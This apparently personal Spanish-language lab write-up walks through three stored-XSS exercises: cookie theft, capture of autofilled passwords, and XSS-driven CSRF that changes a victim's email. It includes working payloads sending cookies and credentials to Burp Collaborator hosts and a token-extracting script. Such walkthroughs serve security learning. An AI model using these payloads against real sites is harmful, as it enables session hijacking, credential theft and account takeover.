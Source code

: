 # Laboratories cross-site scripting

## Lab: Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Analizando la web podemos ver:
- disponemos de nuestra cookie
- Tenemos un formulario de logueo sin la opción de forget password
- comentarios


La idea es que nos manden a burpcollaborator la cookie quien lea el post. Se sobre entiende que tendrán una acción para ver los comentarios. Una vez robada la cookie tendremos que susituir nuestra cookie.

```mermaid
flowchart 
 classDef green color:#022e1f,fill:#00f500;
   classDef red color:#022e1f,fill:#f11111;
   classDef white color:#022e1f,fill:#fff;
   classDef black color:#fff,fill:#000;
A[Buscamos donde podemos ingresar el exploit]-->B[Añadir exploit alert]
B-->|Si explotable|C[Mandamos exploit a nuestro collaborator con lo que necesitemos]
B-->|NO|D[No es explotable a priori]:::red
E-->F[Cambiar la cookie que recibimos]:::green
C-->|Si Funcionan las cookies|G[steal cookies]
G-->E[Mirar resultado del collaborator]
C-->|2. Probamos robar las claves si tienen autocompletador|H[capture password]
H-->I[Mirar collaborator e identificarse]:::green
H-->|Si no funciona probar varias veces reiniciar collaborator|H

C-->|Tiene csrf|J[Exploiting XSS to perform CSRF]
J-->|Si|K[Tenemos mail o user]
J-->|NO|L[no podemos asignarnos el csrf de la victima]:::red
K-->M[Escribimos un comentario con un script que haga lo siguiente\n 1.cargar la página o las paginas hasta llegar donde se cambia\n2.extraemos el csrf\n3.Mandamos una petición post con el csrf y nuestro email o nombre]:::green
```

1. Probamos si es inyectable un javascript
Insertamos en un comentario esto, para ver si nos carga a nosotros ese javascript
```js
<script>
alert();
</script>
```
![](assets/2022-07-12-19-11-11.png)

Es posible inyectar un script, no lo tienen controlado.

2. abrimos burpcollaborator y copiamos la url
   
La idea es que nos manden a nuestra burpcollaborator . Buscando en google encontramos esto

```js
// Ejemplo implementando el metodo POST:
async function postData(url = '', data = {}) {
  // Opciones por defecto estan marcadas con un *
  const response = await fetch(url, {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
    credentials: 'same-origin', // include, *same-origin, omit
    headers: {
      'Content-Type': 'application/json'
      // 'Content-Type': 'application/x-www-form-urlencoded',
    },
    redirect: 'follow', // manual, *follow, error
    referrerPolicy: 'no-referrer', // no-referrer, *no-referrer-when-downgrade, origin, origin-when-cross-origin, same-origin, strict-origin, strict-origin-when-cross-origin, unsafe-url
    body: JSON.stringify(data) // body data type must match "Content-Type" header
  });
  return response.json(); // parses JSON response into native JavaScript objects
}

postData('https://example.com/answer', { answer: 42 })
  .then(data => {
    console.log(data); // JSON data parsed by `data.json()` call
  });
```
Parece que al menos hay que enviar el post y el modo para decir que es otro sitio.
Lo reducimos a este tipo y probamos, si no funciona vamos añadiendo cosas.
```js
fetch(url, {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    body: document.cookie
    });
```



```js
<script>
fetch(http://ywyrjloefo180531g2xi7pzk2b83ws.burpcollaborator.net, {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>Yo creo que está bien pero no me devuelve nada. Voy a ver los errores, me temo que las pruebas iniciales lo han estropeado y lo tendré que intentar en otro post, pero es posible que o falte el https o puede también que falte algun argumento como credentials.
![](assets/2022-07-12-19-27-23.png)

Probando con https

![](assets/2022-07-12-19-29-57.png)

Ok el problema era las '' en la url, quedaría así

```js
<script>
fetch('https://ywyrjloefo180531g2xi7pzk2b83ws.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```

Ahora en burpcollaborator vamos a la pestaña request to collaborator en la petición que nos dió.

![](assets/2022-07-12-19-34-17.png)

Vamos a la petición de login y enviamos a repeater, ahí hay una sesion y la cambiamos por la que hemos obtenido . Luego enviamos y resuelto.

![](assets/2022-07-12-19-35-31.png)

## Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

La idea es obtener la clave del usuario y la contraseña porque tiene un auto rellenador de contraseñas

Probamos si se puede insertar un javascript
```js
<script>
alert();
</script>
```

Al ver que se puede mandamos a burpcolaborator lo siguiente. Básicamente crea un input username y otro password, en el momento en que el tamaño de la contraseña tenga un tamaño lo envia. Tiene que tener un autocmpletador de claves.. 

>Es importante comprender que no lleva la etiqueta script porque sino no sale visualmente a la victima y queremos que si se vea.

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://r1tymfpnmfosqa4n007uka30vr1ip7.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
> Importante si no funciona cerrar burpcollaborator y volver a poner la url nueva

![](assets/2022-07-12-20-18-23.png)

![](assets/2022-07-12-20-18-49.png)


## Lab: Exploiting XSS to perform CSRF
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter

La idea aquí es que obtener el csrf. Para ello lo buscamos con burpsuite. Lo encontramos en change/mail

Tenemos que poner un comentario en el que lo primero que haga sea en trar en /my-account, luego cambiar el mail por el nuestro para que nos haga que nuestro mail sea el correspondiente al de la victima para poder tener sus credenciales.

Hemos actualizado nuestro correo a lala@lala.net
1. Creamos un request get a my-account
2. Una vez hecho esto buscamos donde ponga csrf

![](assets/2022-07-12-20-54-55.png)

3. Una vez buscado  cogemos todo la primera cadena que venga detras de value=
4. Creamos una petión post a change mail con el token de la victima y nuestro mail.

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=lala@lala.net')
};
</script>
```
